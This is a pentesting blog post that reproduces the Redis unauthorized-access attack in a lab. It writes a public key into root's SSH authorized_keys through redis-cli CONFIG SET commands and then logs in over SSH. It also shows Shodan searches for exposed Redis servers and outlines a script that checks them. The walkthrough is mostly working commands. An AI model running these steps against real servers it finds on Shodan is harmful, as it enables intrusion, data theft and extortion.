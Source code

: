 ```yaml
---
layout: post
title: "Simulating Redis Unauthorized Access Vulnerability"
excerpt: "If a Redis is publicly accessible and is not protected by password, a remote attacker can exploit this to gain unauthorized access to the server. Let's learn how to set up a vulnerable redis server and attack it. We will also explore how to search and verify vulnerable redis out there with powerful search engine Shodan and automated python exploit"
categories: [pentesting-simulation]
comments: true
image:
  feature: redis-unauth-acc-vul/redis-unauthorized-access.png
  show: true
---
```


Redis, is an open source, widely popular data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. However, some Redis' are bind to public interface and even has no password authentication protection. 


Under certain conditions, if Redis runs with the root account, attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges and delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.


The simplified flow of this exploit is:

	- Login to a unprotected Redis
	- Change it's backup location to .ssh directory
	- Write the SSH Keys to new backup location
	- Remote connect and login to the target server using SSH key

We should already be familiar how automatic SSH login with private + public keys works.

### Simulation

Now let's get our hands wet and set up a target machine. We'll need two machines, they can be real machines, virtual machines, or remote machines (VPS). As long as the attack end is able to ping the target end, we are good.


Environment setup for this example:

	- Target machine: Redis-3.2.11 on Ubuntu
	- Attack machine: Kali Linux

&nbsp;
#### Set Up Target Machine:

First, let us set up the target machine with Redis. Download source code by
```bash
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
```

Extract and build
```bash
tar xzf redis-3.2.11.tar.gz
cd redis-3.2.11
make
```

After make, we can use our favorite editor to open ```redis.conf``` in ```redis-3.2.11``` folder. In order to be remotely accessed, we will comment out line ```bind 127.0.0.1``` and disable ```protected-mode``` as shown below.

![redis.conf]({{ "/assets/upload/images/redis-unauth-acc-vul/redis.conf.png" | absolute_url }}){:class="post-image center"}

Now we should fire up Redis with the configuration file we just edited. Note that ```redis-server``` is in ```redis-3.2.11/src```.

```bash
src/redis-server redis.conf
```

Now we have finished setting up the targer server. Additionally, we should also check if we have ```.ssh``` folder. If not, we should create it for the attack later. 


#### Attack Machine:

First, make sure we can ping the target. Then, we will generate a private key and public key for SSHing into the target maching later. Run the following command to generate keys and leave passphrase empty.
```bash
ssh-keygen -t rsa
```

Next, enter the ```.ssh``` folder. If you are root user, enter ```/.ssh```, otherwise ```~/.ssh```, then copy the private key in to ```temp.txt```.

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Some may be wondering that why do we put two blank lines before and after the public key? We will leave that as a mystery for right now if you don't know :)

![ssh-keygen]({{ "/assets/upload/images/redis-unauth-acc-vul/keygen.png" | absolute_url }}){:class="post-image center"}

Good! So far we have generated a pair a keys, we will need to find a way to smuggle the public key to the Redis server (target machine.)

We are going to use ```redis-cli```, the Redis command line interface, to send commands to Redis and read the replies sent by the server directly in the terminal. 

Run the following commands in ```redis-3.2.11/src``` folder. (Or depending where we are, we can always specify the path to the files we use)

```bash
#our SSH public key|              Remote Redis IP   Command key
cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key
```

Here, let us take a look at the command. We use ```-h``` flag to specify the remote Redis server IP so that ```redis-cli``` knows where to connect and send commands. The part after ```-x``` is saying that we are setting the key named ```s-key``` with the value in ```temp.txt```. 

![set-key]({{ "/assets/upload/images/redis-unauth-acc-vul/set_key.png" | absolute_url }}){:class="post-image center"}

Yea, we have a key with our SSH key sneaked in! Let's connect to the Redis and play around its configuration. Use ```redis-cli``` to connect to the Redis server again.

![set-backup-dir]({{ "/assets/upload/images/redis-unauth-acc-vul/set_backup_dir.png" | absolute_url }}){:class="post-image center"}

Looking at the above screenshot, we first verify the value of the key ```s-key``` by using the command ```GET s-key```, which is what we want -- the public key with two blank lines before and after. Then I tried the command "dir" just to see what it says (kidding). What we actually want to do here is to get the value of "s-key" (SSH public key) stored in the ```.ssh``` folder so that we can remote SSH login to the target machine whithout having to type the password.

Thus, we will do this:

```bash
CONFIG GET dir #  get your redis directory
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed.

CONFIG SET dir /home/xxxx/.ssh # set the backup location to the .ssh folder
(or) CONFIG SET dir /root/.ssh 

CONFIG SET dbfilename authorized_keys

# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder
save

```

> The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured 
> Source: [ssh.com](https://www.ssh.com/ssh/authorized_keys/)

#### Woohoo, Harvest Time

On Attack Machine, try to SSH in the Target Machine using the following command.

```bash
# private key username@server IP
ssh -i id_rsa username@203.137.255.255
```

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}


YAS! As we can see, we have a successful auto-login with SSH keys! Voila voila, we have now completed the attack simulation. :smile: (Smiley face actually means that I'm finally almost done writing this up :sob:)

At the end of this section, I would like to show what is Redis's backup file look like.

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}

Notice the unreadable characters? Add "\n\n" before and after the key content was just to be safe and separate it from other "stuff" so that it can be parsed correctly. :ok_hand:

### Use Search Engine to find Vulnerable Redis Servers

Alrighty alrighty, as I mentioned, we are going to use [Shodan](https://www.shodan.io/) to search servers that has Redis footprint (characteristics).

Let us do a simple search by Redis' default port.

![shodan]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan.png" | absolute_url }}){:class="post-image center"}

Looks like we have 75,665 search results. Aaaaaand guess what! Right down there (not shown but we can see it if we scroll down) there are TONS of host that has NO password protection!! :worried: :worried: :worried: 

This vulnerability was found years ago and now still countless of machines are opening up themselves in such an easy way for attackers to have fun in there server... 

According to Shodan, there are around **56,000 unprotected** Redis instances in 2015. 

![shodan-twitter]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan_twitter.png" | absolute_url }}){:class="post-image center"}

According to ZoomEye, the distribution of the instances is.

![zoomeye-dist]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist.png" | absolute_url }}){:class="post-image center"}

The top ranking countries of these instances are: China, USA, Germany...

![zoomeye-dist-rank]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist_rank.png" | absolute_url }}){:class="post-image center"}

Okay, we need to get back to the business. So how do we verify if a server is protected using python? It turns out to be fairly simple.

1. Use socket to connect to the target IP
2. Perform a GET request
3. If the server is unprotected, you GET request will succeed; otherwise it will fail

![redis-python-verify]({{ "/assets/upload/images/redis-unauth-acc-vul/redis_python.png" | absolute_url }}){:class="post-image center"}